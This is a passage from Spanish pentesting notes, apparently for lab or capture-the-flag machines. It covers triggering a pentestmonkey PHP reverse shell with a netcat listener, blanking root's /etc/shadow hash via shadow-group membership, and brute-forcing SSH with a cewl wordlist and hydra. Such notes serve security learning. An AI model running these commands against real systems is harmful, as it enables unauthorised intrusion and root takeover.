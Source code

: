 nano /mnt/nfs_share/reverse.php

el contenido es la reverse shell de pentestmonkey

luego nos ponemos en ecucha con el puerto que le asignamos en el reverse.php

nc -lvnp puerto

y en la url:

http://192.168.42.137/reverse.php

-------------------------------------------------------------------------------

## 64.- Cuando no podemos hacer nada, y tenemos el servicio ssh podemos tratar de ingresar por ssh y en el banner nos puede dar una pista, como algún nombre de usuario.

-------------------------------------------------------------------------------

## 65.- Si pertenezco al grupo shadow puedo modificar el /etc/shadow y cambiarle la contraseña al root, entonces lo dejo sin contraseña.

ejecutamos: id
uid=1000(b.taylor) gid=1000(b.taylor) grupos=1000(b.taylor),42(shadow)

eliminamos desde el $ después de los ":" después de la palabra root hasta antes de los ":"

root:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20135:0:99999:7:::


root::20135:0:99999:7:::

ejecutamos su root y no escribimos contraseña

como también podemos crear una contraseña con openssl

openssl passwd password1

copiamos el hash y lo pegamos en el /etc/shadow

## 66.- Cuando tengamos los servicios htttp y ssh y en la web no encontramos nada podemos hacer ataque de fuerza bruta, primero creando una lista de palabras como contraseñas usando palabras de la web, entendiendose que la web es de tipo servicios, portafolio.

este comando genera una diccionario tomando palabras de la web y lo guarda como pass.txt

cewl http://tech.unique.nyx/ --with-numbers -w pass.txt

para el ataque utilizamos hydra y los nombres de usuarios son los nombres que aparecen en la web

hydra -L usernames.txt -P pass.txt ssh://192.168.42.141 -t 64 -I

-------------------------------------------------------------------------------
